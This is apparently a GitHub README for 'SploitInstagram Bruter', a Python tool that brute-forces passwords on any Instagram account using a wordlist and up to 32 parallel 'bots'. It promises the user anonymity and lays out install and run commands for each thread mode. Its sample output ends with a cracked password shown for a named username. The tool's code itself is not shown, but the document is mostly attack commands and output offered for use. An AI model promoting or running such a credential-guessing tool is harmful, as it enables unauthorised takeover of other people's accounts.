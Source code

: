 ###About Me
Kaushalendra Pratap Singh, I am 1st year engineering student and Cyber Security Enthusiast.
##Social Media
Instagram : https://www.instagram.com/alien_piyush/
[Don't Exploit It :)]
LinkedIn : https://www.linkedin.com/in/kaushalendra-pratap-singh-3aaab3136/


### SploitInstagram Bruter

-This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### Help

```
C:\Users\root\Desktop\SploitINSTA>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```

### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 2
```

### Moderate mode 2

This mode uses 16 bots, or 256 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 1
```

### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\root\Desktop\Instagram>python3 instagram.py pabhkn password.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: password.lst
[-] Username: pabhkn
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: password.lst
[-] Username: pabhkn
[-] Password: 9410673959
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: pabhkn
[+] Password: 9410673959
```
